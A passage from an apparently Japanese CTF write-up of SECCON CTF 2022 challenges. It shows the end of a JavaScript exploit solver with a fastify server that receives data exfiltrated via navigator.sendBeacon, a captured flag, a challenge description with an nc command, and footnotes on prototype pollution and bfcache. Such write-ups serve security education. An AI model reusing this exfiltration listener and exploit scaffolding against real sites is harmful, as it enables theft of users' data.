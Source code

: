 ```javascript
    })
  ).text();
  console.log(res); // "Received :)"
};

const fastify = require("fastify")();

fastify.register(require("@fastify/static"), {
  root: path.join(__dirname, "public"),
});

fastify.post("/", async (req, reply) => {
  // Received data from navigator.sendBeacon
  console.log(req.body); // Got a flag!
  process.exit(0);
});

const start = async () => {
  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1 * 1000);
      await exploit();
      await sleep(10 * 1000);
      fail("Failed");
    }
  );
};
start();
```

### Flag

```
SECCON{hack3rs_po11ute_3verything_by_v4ri0us_meanS}
```

## [misc] latexipy

- 8 teams solved / 305 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/misc/latexipy

Description:

> Latexify as a Service
>
> ```
> nc latexipy.seccon.games 2337
> ```


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。